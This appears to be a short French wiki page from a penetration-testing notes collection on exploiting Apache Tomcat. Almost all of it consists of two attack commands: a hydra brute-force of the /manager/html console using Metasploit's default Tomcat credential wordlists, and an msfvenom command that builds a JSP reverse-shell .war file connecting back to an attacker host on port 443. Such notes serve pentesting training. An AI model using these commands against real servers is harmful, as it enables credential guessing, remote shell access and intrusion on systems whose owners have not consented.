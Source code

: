 ```yaml
---
title: Apache Tomcat
permalink: /Apache_Tomcat/
---
```


Apache Tomcat est un serveur web permettant de déployer des applications Java.

Exploitation
------------

La première chose à faire est d'essayer d'obtenir un accès à la console /manager. Pour cela il est possible d'utiliser [hydra](/hydra "wikilink") avec des listes prédéfinies dans Kali:

``` bash
hydra -L /usr/share/wordlists/metasploit/tomcat_mgr_default_users.txt -P /usr/share/wordlists/metasploit/tomcat_mgr_default_pass.txt http://192.168.31.209:8080/manager/html
```

On peut ensuite uploader un reverse shell sous forme de .war:

``` bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.30.229 LPORT=443 -f war > shell.war
```

[Category:Technologies](/Category:Technologies "wikilink")
